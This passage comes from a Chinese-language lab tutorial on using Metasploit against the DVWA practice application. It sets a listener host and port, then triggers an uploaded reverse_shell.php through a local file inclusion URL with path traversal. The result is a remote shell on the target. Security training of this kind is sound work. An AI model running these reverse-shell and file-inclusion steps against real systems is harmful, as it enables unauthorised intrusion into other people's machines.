 ![set_payload](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741197463.png/wm)

此时需要加载片刻，成功的加载之后，设置我么我们的 IP 与 端口号了：

```
set LHOST 192.168.122.101

set LPORT 1111
```

![set_localhost](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741206359.png/wm)

我们还可以通过 `show options` 查看我们设置是否无误：

![show_options](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741214167.png/wm)

我们可以使用 `exploit` 亦或者是 `run` 命令开始攻击，两个命令的作用相同，使用任意一个都可以：

![show_run](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741223670.png/wm)

做好这一切准备的工作，我们就使用本地包含来是我们刚刚放置的脚本运行：

```
192.168.122.102/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/reverse_shell.php
```

![show_load](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741232357.png/wm)

因为我们的脚本会与我们的 msfconsole 保持连接，程序无法执行完，所以一直处于加载中的状态，此时我们回头来看看我们的 msfconsole 的变化：

![show_msfconsole](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741242214.png/wm)

做到这一步说明我们已经深入敌军内部了，我们通过 help 可以看到我们可以执行很多命令，这些工具已经为我们提供好了：

![show_help](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741250856.png/wm)

从获取系统信息，当前的进程 IP，执行一个当个命令，再到直接登陆 shell，应有尽有。

我们输入 `shell` 指令：

![show_shell](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741262693.png/wm)

这样就说明我们已经成功登陆到对方 shell 终端了，我们可以输入任何命令：

![show_command](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741275740.png/wm)

这样我们便成功的使用 metasploit 完成了目标主机的深入渗透。

## 5. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 回顾文件包含漏洞
- 利用 msf 生成攻击脚本
- 利用反弹 shell 登陆目标主机

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 6. 作业

1.利用 mutillidae 完成同样的实验